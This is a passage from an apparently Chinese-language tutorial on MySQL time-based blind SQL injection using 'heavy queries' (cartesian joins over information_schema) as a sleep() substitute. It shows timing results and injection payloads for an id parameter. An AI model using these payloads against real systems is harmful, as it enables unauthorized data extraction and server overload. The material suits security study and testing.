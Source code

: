 结果

```
+----+-------------------------------------+
| id | content                             |
+----+-------------------------------------+
|  1 | I think you may need sql injection! |
+----+-------------------------------------+
1 row in set (2 min 4.42 sec)
```

延时大约在2分钟左右<br>
尝试3：使用2列+1库

```
select * from content where id = 1 and 1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.SCHEMATA C);
```

结果

```
+----+-------------------------------------+
| id | content                             |
+----+-------------------------------------+
|  1 | I think you may need sql injection! |
+----+-------------------------------------+
1 row in set (4.47 sec)
```

延时大约在5s左右<br>
所以大家可以看见，想要多大的负荷都可以自己调整，如果连3列都嫌少，还可以

```
select * from content where id = 1 and 1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C,information_schema.columns D,information_schema.columns E .....);
```

想要多少有多少，可以说机动性很强了<br>
应用起来也很容易，一般情况下，我们的盲注是这样测试的

```
id = 1' and 1 and sleep(5)%23
id = 1' and 0 and sleep(5)%23
```

前者会sleep 5秒，而后者瞬间响应<br>
用heavy query也是同理

```
id = 1' and 1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.SCHEMATA C)%23
id = 1' and 0 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.SCHEMATA C)%23
```

以我本地为例
